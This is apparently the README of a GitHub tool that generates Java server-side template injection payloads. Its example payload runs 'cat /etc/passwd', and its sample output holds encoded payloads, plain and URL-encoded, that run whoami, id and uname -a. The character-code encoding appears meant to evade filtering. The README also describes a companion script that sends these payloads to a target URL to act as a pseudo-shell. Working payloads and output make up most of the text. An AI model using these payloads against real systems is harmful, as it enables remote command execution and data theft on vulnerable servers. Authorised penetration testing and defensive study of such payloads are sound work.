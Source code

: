 
<h1 align="center">
  <br>
  <a href="https://github.com/mez0cc/ssti-payload"><img src="https://i.imgur.com/hoi1frW.jpg" height=150px alt="shells"></a>
  <br>
  SSTI Payload Generator
  <br>
</h1>

This generator is for a specific type of Java SSTI, inspired by the following [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java):

```${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}```

The string is converted into a decimal value and then concatenated together. This python script will automate that process within a interactive Cmd prompt.

#### Example 1:

```
> python3 ssti-payload.py
Command ==> whoami
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}

Command ==> id
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}

Command ==> uname -a
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(117).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(97))).getInputStream())}
```

#### Example 2 (url encoded):
```
> python3 ssti-payload.py -u
Command ==> whoami
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28119%29.concat%28T%28java.lang.Character%29.toString%28104%29%29.concat%28T%28java.lang.Character%29.toString%28111%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28109%29%29.concat%28T%28java.lang.Character%29.toString%28105%29%29%29.getInputStream%28%29%29%7D

Command ==> id
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28105%29.concat%28T%28java.lang.Character%29.toString%28100%29%29%29.getInputStream%28%29%29%7D

Command ==> uname -a
%24%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28T%28java.lang.Character%29.toString%28117%29.concat%28T%28java.lang.Character%29.toString%28110%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29.concat%28T%28java.lang.Character%29.toString%28109%29%29.concat%28T%28java.lang.Character%29.toString%28101%29%29.concat%28T%28java.lang.Character%29.toString%2832%29%29.concat%28T%28java.lang.Character%29.toString%2845%29%29.concat%28T%28java.lang.Character%29.toString%2897%29%29%29.getInputStream%28%29%29%7D
```

SSTI Skeleton
=============

`ssti-skel.py` uses the `Cmd` library to create a looped command prompt. This directly takes input from the command line, encodes it appropriately, and sends it via `requests` to the target url (`-t`). 

If successful, the script will be a `pseudo-shell`, allowing for commands to be sent in real time. If at anytime a request fails, the script will quit.

This is a very specific usecase. But if it works, it works.

Example command:

```python3 ssti-skel.py -t 'https://example.com/path?param='```

Depending on the response, the `ssti=str(output).split('&#39;')[1].rstrip()` variable will probably have to be changed to suit the response. No clever logic was implemented for this :)


